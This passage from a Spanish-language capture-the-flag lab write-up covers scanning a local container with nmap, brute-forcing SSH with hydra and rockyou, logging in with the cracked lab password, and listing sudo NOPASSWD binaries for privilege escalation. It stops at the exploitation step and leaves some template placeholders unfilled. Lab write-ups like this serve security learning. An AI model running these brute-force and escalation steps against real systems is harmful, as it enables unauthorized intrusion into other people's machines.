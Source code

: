 Ahora si detectamos el servicio **ssh**
**Servicios identificados:**
1. `[ 22 ]/[ TCP ]`: [ SSH ] ([ 9.6 ]) **ubuntuNoble**

Lanzamos un escaneo para detectar la version que corre detras de **ssh**
```bash
nmap -sC -sV -p22 172.17.0.2 -oN targeted
```
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que ya tenemos el puerto **ssh** detectado procederemos a realizar un ataque de fuerza bruta sobre ese servicio

### Ejecucion del Ataque
```bash
# Comandos para explotación
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt -f ssh://172.17.0.2
```

### Intrusion
Una ves detectada la contrasena del usuario **toctoc** nos loguearemos por **ssh**
```bash
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
```

```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh toctoc@172.17.0.2
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l # ( kittycat )

# Tenemos estos binarios potenciales para escalar a root
User toctoc may run the following commands on 794bf2bb45ad:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function
```

**Hallazgos Clave:**
- Binario con privilegios: `[Binario]`
- Credenciales de usuario: `[Usuario]:[Contraseña]`

### Explotacion de Privilegios
